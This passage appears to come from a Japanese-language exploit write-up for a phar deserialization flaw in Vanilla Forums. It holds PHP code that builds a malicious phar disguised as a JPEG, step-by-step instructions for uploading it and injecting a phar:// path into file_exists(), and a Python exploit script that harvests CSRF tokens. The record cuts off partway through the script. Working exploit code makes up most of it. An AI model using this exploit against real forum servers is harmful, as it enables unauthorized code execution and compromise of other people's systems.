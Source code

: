````php
// add our object as meta data
$phar->setMetadata(new Gdn_Configuration());
$phar->stopBuffering();

// we rename it now
rename("poc.phar", "poc.jpg");
````
次にこのファイルをアップロードして、何らかのリクエストで`file_exists()`の中にこのアップされたファイルへのパスを挿入する。   
まずCSRFトークンを取得する。以降の手順ではすべてリクエストにCSRFトークンがないとダメっぽいので取得しておく。   
次に`jpg`に偽装した`phar`ファイルをアップロードする。   
次にアップした`phar`ファイルの名前を取得する。`attack.jpg`とかでアップしても実際にはタイムスタンプとかランダムな名前で保存されることになるので。   
次に得られたファイル名で`phar://.../???.jpg`のパスを作成してリクエストして`file_exitst()`の中にInjectする！   
```python
import re
import sys
import string
import random
import urllib2
import requests

def get_csrf(t, c):
    """
    Gets the csrf for any page thats logged in.
    """
    r = s.get("%s/index.php" % t)
    match = re.search("TransientKey\":\"(.*)\",\"W", r.text)
    if match:
        Vanilla_tk = r.headers['Set-Cookie']
        csrf = match.group(1)
        if Vanilla_tk.split("=")[1].startswith(csrf):
            return Vanilla_tk

def get_csrf_login(t):
    """
    Gets the CSRF cookie for the login process
    """
    r = requests.get("%s/index.php?p=/entry/signin" % t)
    match = re.search("TransientKey\":\"(.*)\",\"W", r.text)
    if match:
        Vanilla_tk = r.headers['Set-Cookie']
        csrf = match.group(1)
        if Vanilla_tk.split("=")[1].startswith(csrf):
            return Vanilla_tk

def extract_csrf(csrf):
    """
    Extracts the csrf token from the cookie
    """
    token = urllib2.unquote(csrf).decode('utf8')
    m = re.search("Vanilla-tk=(.*)\:\d{1,2}:", token)
    if m:
        k = m.group(1)
        c["Vanilla-tk"] = token.split("=")[1]
        return k, c

def we_can_trigger_unserialize(t, csrf):
    """
    This is our malicious phar:// and it can be in a share if we are targeting windows.
    Change the path if you need to.
    """
    k, c = extract_csrf(csrf)
    p = {
        "TransientKey": k,
```